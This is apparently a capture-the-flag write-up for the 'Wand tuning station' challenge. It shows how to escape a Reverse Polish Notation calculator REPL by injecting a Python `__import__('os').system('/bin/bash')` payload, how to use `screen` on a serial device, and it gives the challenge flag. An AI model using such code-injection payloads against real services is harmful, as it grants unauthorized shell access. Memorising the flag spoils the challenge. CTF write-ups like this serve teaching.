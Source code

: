 # Writeup [Wand tuning station](README.md)

## Task description

**Points: 300**

**Author: kristebo/PewZ**

**Difficulty: hard**

**Category: AFK** 


## Writeup

When you connect to the box you will be
greeted by a input field and a blinking cursor.
you can input strings formated as _Reverse Polish Notation_.


```
1 2 +
```

And get the answer:

```
 -> 3
 ```

What can we do to get further?
Can we escape this REPL?


```python
1 __import__("os").system("/bin/bash") 2 +
```
Ahh, we got a shell!

The file in the home directory hints that there are devices everywhere.
Looking at `/dev/` we see that there are more serial devices available:
```sh
$ screen /dev/ttyACM0 115200
```

Here you go. We got the flag!

```
TG19{I_UART_U_2}
```
